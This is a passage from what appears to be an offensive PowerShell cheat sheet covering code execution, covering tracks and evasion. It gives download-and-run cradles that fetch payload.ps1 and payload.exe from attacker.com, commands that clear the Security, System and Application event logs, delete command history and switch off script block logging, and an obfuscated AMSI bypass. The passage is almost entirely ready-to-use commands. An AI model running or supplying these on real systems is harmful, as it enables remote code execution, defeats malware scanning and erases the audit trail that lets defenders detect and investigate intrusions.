 ```powershell
$creds
```

---

### **9. Code Execution**

#### **Execute PowerShell from Memory**
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')
```

#### **Run PowerShell from Base64-Encoded String**
```powershell
powershell -encodedCommand [Base64_String]
```

#### **Execute a Downloaded EXE**
```powershell
Invoke-WebRequest -Uri 'http://attacker.com/payload.exe' -OutFile 'C:\payload.exe'; Start-Process 'C:\payload.exe'
```

---

### **10. Cleansing Tracks**

#### **Delete PowerShell History**
```powershell
Remove-Item (Get-PSReadlineOption).HistorySavePath
```

#### **Clear Event Logs**
```powershell
wevtutil cl Application
wevtutil cl Security
wevtutil cl System
```

#### **Disable Logging**
```powershell
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -Name 'EnableScriptBlockLogging' -Value 0
```

---

### **11. Evasion Techniques**

#### **AMSI Bypass**
```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + ('b'+'L')+'E:1'+('+'+''))  ( [Ref].Assemblies | ?{ $_.FullName -Match 'Amsi' }).GetType('A'+'m'+'s'+'i'+'.A'+'m'+'s'+'iU'+'t'+'i'+('l'+'S')).GetMethod('iN'+'it'+'Fa'+'il'+'u'+'r'+'e',([Type[]](0..0)) ).Invoke(0,(0..0))
```
